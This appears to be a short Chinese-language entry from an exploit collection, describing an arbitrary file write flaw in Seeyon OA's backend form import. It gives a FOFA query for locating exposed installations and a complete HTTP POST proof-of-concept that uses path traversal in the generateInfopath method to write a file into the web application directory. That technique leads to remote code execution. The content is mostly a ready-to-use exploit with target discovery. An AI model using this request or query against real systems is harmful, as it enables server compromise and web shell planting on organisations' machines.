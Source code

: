 # 致远OA后台表单导入任意文件写入漏洞

致远OA后台表单导入任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
app="致远互联-OA"
```

## poc

```javascript
POST /seeyon/ajax.do?method=ajaxAction&managerName=cap4FormDesignManager HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 331
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Cookie: ts=1728653264995; JSESSIONID=EADD9E1D7E239870F85E73935AC9AD34; loginPageURL=; login_locale=zh_CN; avatarImageUrl=5995465946958220283
Host: 192.168.18.129:8085
RequestType: AJAX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0

managerMethod=generateInfopath&arguments={"files":[{"fileName":"../../../../../../ApacheJetspeed/webapps/seeyon/11.txt","fileContent":"1111"}]}
```

![8fe957553635d968043dff547bca65ce](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410131410574.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/kRCNBIbWvgdJ1BLWl31SYQ
